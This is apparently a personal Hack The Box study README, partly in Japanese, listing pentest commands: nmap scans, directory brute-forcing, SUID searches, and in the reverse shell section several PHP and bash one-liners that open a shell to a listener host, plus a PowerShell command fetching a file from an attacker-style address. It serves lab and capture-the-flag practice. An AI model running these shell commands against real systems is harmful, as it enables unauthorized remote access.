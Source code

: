 # HTB-Note
note about Hack The Box

<!-- TOC -->

- [HTB-Note](#htb-note)
  - [Virtual Box Setting](#virtual-box-setting)
    - [Run GuestAddictionsCD](#run-guestaddictionscd)
    - [Open VPN](#open-vpn)
  - [CheatSheet](#cheatsheet)
    - [nmap](#nmap)
      - [nmap script engine](#nmap-script-engine)
    - [MSFvenom](#msfvenom)
    - [Directory Enumlation](#directory-enumlation)
    - [Reverse Shell](#reverse-shell)
    - [Privilege escalation](#privilege-escalation)
      - [find SUID](#find-suid)
    - [PowerShell](#powershell)
    - [Password Crack](#password-crack)

<!-- /TOC -->

## Virtual Box Setting

### Run GuestAddictionsCD

```Shell
cd /media/
sudo mount /dev/cdrom /media/cdrom1
cd /cdrom1
sudo ./VBoxLinuxAdditions.run 
reboot
```

### Open VPN

- Download ovpn file **for VIP account**

```Shell
sudo openvpn --config ./Desktop/yufujioka.ovpn
```

## CheatSheet

### nmap

- バージョン検出
```shell
nmap -sV rhost
```
- OS検出
```shell
nmap -O rhost
```
- OS 検出 + バージョン検出
```shell
nmap -A rhost
```
- ping 送らない
```shell
nmap -Pn rhost
```

#### nmap script engine

- Vulnerability 検出
```shell
nmap --script=vuln -p rport1,rport2 rhost
```

- DNS

### MSFvenom

- [MSFvenom ~ ペイロード早見表 ~](https://qiita.com/mr-wacker/items/0ec926951ffa5a4d197c)

### Directory Enumlation

- Gobuster options
  - [Gobuster Cheatsheet](https://redteamtutorials.com/2018/11/19/gobuster-cheatsheet/)
  - quick play
```
gobuster dir -t 100 -u targetUrl -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o outfile
```

- [ffuf](https://github.com/ffuf/ffuf)
  - quick play
```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u targetUrl/FUZZ
```


### Reverse Shell

- receive
```
nc -lnvp 1234
```

- [A tiny PHP/bash reverse shell.](https://gist.github.com/rshipp/eee36684db07d234c1cc)
```php
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/10.0.0.10/1234 0>&1'");
```
  - Direct input
```php
php -r '$sock=fsockopen("your.server.ip.address",1234);exec("/bin/bash -i <&3 >&3 2>&3");'
```

- PHP fsockopen
```php
<?php $s=fsockopen("10.0.0.1",1234);exec("sh<&3>&3 2>&3");?>
```
  - Direct input
```php
php -r '$s=fsockopen("10.0.0.1",1234);exec("sh<&3>&3 2>&3");'
```

- when i get "must be run from a terminal"
```python
python3 -c "import pty; pty.spawn('/bin/bash')"
```

### Privilege escalation

#### find SUID 

```shell
find / -perm -u=s -type f 2>/dev/null
```

#### [privilege-escalation-awesome-scripts-suite](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite)

- [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
- [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)

### PowerShell

- whoami
```
$env:UserName
```
- 論理ドライブの一覧を表示
```
Get-PSDrive
```
- カレントドライブの移動
```
Set-Location C:
```
- Download file
```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.14.22:8000/file','filename')"
```

### Password Crack

- [Free Password Hash Cracker](https://crackstation.net/)
